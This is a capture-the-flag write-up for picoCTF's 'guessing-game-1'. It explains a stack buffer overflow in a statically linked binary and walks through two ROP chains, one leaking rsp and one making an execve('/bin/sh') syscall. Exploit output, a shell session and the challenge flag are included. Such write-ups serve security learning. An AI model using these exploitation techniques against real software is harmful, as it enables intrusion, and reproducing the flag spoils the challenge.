 # guessing-game-1

PRNG, ROP (Leak address), ret2syscall

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/guessing-game-1/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE, so function addresses can be used as taken from the symbol table. 

The next section explains why we know that there is in fact no stack canary. 

## Other Details of Note (about the Binary)

The [Makefile](./Makefile) tells us that the binary is **statically-linked**, meaning all the used `libc` (and other included) functions are already linked into the [final executable](./vuln). This provides fertile ground to

1. utilize `libc` functions, and/or
2. farm for ROP gadgets. 

The Makefile also tells us that the binary was compiled with the `-fno-stack-protector` flag, so there is actually no stack canary. `pwntools` probably is detecting the presence of canaries due to their existence in (some/all of) the statically-linked functions. 

## Overview of Binary

The `win` function of the binary is as follows, where BUFSIZE is globally defined in a preprocessor macro to be 100

```c
void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}
```

Clearly, there exists a possible buffer overflow to be exploited, and there is no canary, see [Other Details of Note (about the Binary)](#other-details-of-note-about-the-binary). 

To reach the `win` function, we need to pass a check against a value generated from an unseeded PRNG (incremented by 1), which isn't particularly difficult (see the [solve script](./solve.py) for use of the `ctype` library). 

## ret2syscall

We're like to call `libc`'s `system`, but it is not used and thus not linked into the executable. 

Instead, we will use a syscall to run `execve` on the `/bin/sh` string. However, this requires that we first store the `/bin/sh` string at a known address. 

### ROP Chain 1: Storing the `/bin/sh` string

#### Attempt 1: Storing `/bin/sh` in a malloc-ed chunk

At first I attempted to perform a call to `malloc` and multiple calls to `memset` to store the `/bin/sh` string into a heap chunk, but this would definitely exceed the number of characters accepted by the vulnerable `fgets` function (we'd need to call `malloc` 8 times, for one). Nonetheless, some incomplete code can be found in [malloc_attempt.txt](./malloc_attempt.txt). 

#### Attempt 2: Leaking `rsp`

The concept of "leaking `rsp`" through ROP gadgets is that we move the value of `rsp` into `rdi`, and also write that value into (through intermediaries such as `rax` and writing into `[rdi + 0x8]`) whatever `rdi` will end up pointing to. 

If we then call `puts`, as long as there are no null bytes in the leaked `rsp` value before the leading null bytes (if there are, just re-run the exploit), then the little-endian architecture allows the value to be leaked, smallest-byte first. 

Finally, we call `win` to reopen the attack surface (i.e. "reset" the overflow vulnerability) so as to use the leaked value in [ROP Chain 2](#rop-chain-2-execvebinsh-syscall). 

The ROP chain to achieve this is as follows

```c
[*] ROP Chain 1:
    0x0000:         0x44cc26 pop rdx; ret
    0x0008:         0x44cc49 pop rdx; pop rsi; ret
    0x0010:         0x48315a
    0x0018:         0x410b62
    0x0020:         0x400ed8 pop rbx; ret
    0x0028:         0x410ca0 pop r13; pop r14; ret
    0x0030:         0x44f6c8
    0x0038:         0x45bf5b
    0x0040:         0x4172c6
    0x0048:         0x400ed8 pop rbx; ret
    0x0050:              0x8 __libc_tsd_LOCALE
    0x0058:         0x41025d pop r14; pop rbp; ret
    0x0060:      b'yaaazaab' <pad r14>
    0x0068:         0x44cc4a
    0x0070:         0x490d13
    0x0078:         0x44cc4b
    0x0080:         0x411120 puts()
    0x0088:         0x400c40 win()
```

For more detailed explanations of what each step is doing, refer to the comments written in the [solve script](./). 

Lastly, stepping through this other `win` function in gdb, we realize that by pure coincidence, the leaked `$rsp` value is exactly the starting of the address of the buffer of that the `fgets` in `win` writes to. 

We can therefore write `/bin/sh\x00` into the first 8 bytes of our buffer and the leaked `rsp` value will point right at it. 

> HINDSIGHT: Reading other players' writeups provided the realization that the `/bin/sh` string could have just as well been written into the `.data` or `.bss` segment (which is static as there is no PIE), thus avoiding all the above `rsp`-leaking shenanigans. Oh well, lesson learnt...

### ROP Chain 2: `execve("/bin/sh")` syscall

Based on [this reference about passing parameters to x86-64 syscalls](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) and [this StackOverflow post](https://stackoverflow.com/questions/36673765/why-can-the-execve-system-call-run-bin-sh-without-any-argv-arguments-but-not) (which is for x86, but apparently works in this x86-64 case too), in order to perform the `execve` syscall on the `/bin/sh` C string, we only need

1. `rax` = 0x3b,
2. `rdi` to contain a pointer to a `/bin/sh` string, 
3. `rsi` to contain a null pointer, and 
4. `rdx` to contain a null pointer. 

The ROP chain that achieves this is

```c
[*] ROP Chain 2:
    0x0000:         0x44cc49 pop rdx; pop rsi; ret
    0x0008:              0x0
    0x0010:              0x0
    0x0018:         0x4163f4 pop rax; ret
    0x0020:             0x3b
    0x0028:         0x400696 pop rdi; ret
    0x0030:   0x7fff03638ee0
    0x0038:         0x40137c syscall
```

where the value at `0x0030` is the leaked `rsp` value from ROP chain 1. 

## Flag

```python
[+] Opening connection to jupiter.challenges.picoctf.org on port 26735: Done
[*] Loaded 128 cached gadgets for './vuln'
[*] ROP Chain 1:
    0x0000:         0x44cc26 pop rdx; ret
    ...
[*] hex(leaked_rsp)='0x7fff7175b850'
[*] ROP Chain 2:
    0x0000:         0x44cc49 pop rdx; pop rsi; ret
    ...
[*] Switching to interactive mode
Congrats /bin/sh

$ ls
flag.txt
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_b751b438dd8c4bb7}
```

## Interesting Alternative Methods (Other Writeups)

- [Using the statically-linked `_dl_make_stack_executable` to make the stack executable](https://github.com/onealmond/hacking-lab/blob/master/picoctf-2020/guessing-game1/writeup.md)